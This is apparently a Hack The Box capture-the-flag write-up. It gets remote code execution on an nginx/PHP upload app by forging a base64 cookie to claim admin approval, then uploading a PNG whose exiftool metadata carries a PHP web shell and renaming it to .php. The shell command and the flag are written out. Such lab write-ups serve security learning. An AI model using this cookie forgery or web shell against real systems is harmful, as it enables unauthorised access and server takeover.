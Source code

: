 **RCE via image file upload**

No download of source this time - it is nginx with PHP

![image](https://user-images.githubusercontent.com/87831546/144930279-55abf556-7f2d-47f4-b241-24e1ab821edb.png)

![image](https://user-images.githubusercontent.com/87831546/144930297-fa800b42-f342-44f6-b8a1-d14892d63c1c.png)

Create an account called admin, then base64 decode cookie and change to
```
{"username":"admin","approved":true}
```

Now can upload files - says we can only upload png, it checks the content of the file and to make sure it is a png image, but doesn't care about the file extension.

![image](https://user-images.githubusercontent.com/87831546/144930343-d524eac4-bbef-4187-b75b-fd6e719f8f17.png)

We know the server runs php, so we can get code execution via embedding php code in the png

![image](https://user-images.githubusercontent.com/87831546/144930408-646514f2-e27e-4082-8209-ec8ed9e9fc57.png)

https://thecyberjedi.com/php-shell-in-a-jpeg-aka-froghopper/

```
exiftool -DocumentName="<h1>Testing
<?php if(isset(\$_REQUEST['cmd'])){echo '<pre>';\$cmd = (\$_REQUEST['cmd']);system(\$cmd);echo '</pre>';} __halt_compiler();?></h1>" cabin.png
```

![image](https://user-images.githubusercontent.com/87831546/144930442-fd12dbd9-7fb1-4b5f-a0fd-3b3fa97697be.png)

Then rename cabin.png to cabin.php (as the server doesn't care about extensions) or could do cabin.php.png - https://sushant747.gitbooks.io/total-oscp-guide/content/bypass_image_upload.html  

Then go to the image and see where it is uploaded with inspect element
![image](https://user-images.githubusercontent.com/87831546/144930477-4228e9b2-05a4-4443-9b46-bce1cd5b2025.png)

And we have code execution!
![image](https://user-images.githubusercontent.com/87831546/144930496-4f3ffccf-240f-4ad5-846e-f8f62214ba7f.png)

```
HTB{br4k3_au7hs_g3t_5h3lls}
```
